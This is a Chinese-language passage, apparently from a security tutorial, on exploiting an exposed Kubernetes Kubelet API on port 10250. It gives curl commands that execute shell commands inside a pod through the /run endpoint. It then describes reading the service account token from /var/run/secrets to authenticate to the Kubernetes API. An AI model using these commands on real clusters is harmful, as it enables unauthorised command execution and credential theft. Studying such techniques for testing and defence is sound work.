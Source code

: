 [![](assets/1701678402-5e2661fd60e69cc7430e6826bf1bd28e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190919-e8a54c62-8f70-1.png)  
获取了三个字段后执行命令

```plain
-执行模版：
curl -XPOST -k "https://192.168.108.102:10250/run/<namespace>/<pod>/<container>" -d "cmd=id"

curl -XPOST -k "https://192.168.108.102:10250/run/default/nginx-6867cdf567-9sv8d/nginx" -d "cmd=id"
```

[![](assets/1701678402-401041fd80b94b208f05d12afa447bf2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190919-e8bd0a96-8f70-1.png)  
接下里的操作可以有很多，我们介绍下获得token  
在对应的容器里执行命令,获取 Token，该token可用于Kubernetes API认证，Kubernetes默认使用RBAC鉴权（当使用kubectl命令时其实是底层通过证书认证的方式调用Kubernetes API）  
token 默认保存在pod 里的/var/run/secrets/kubernetes.io/serviceaccount/token
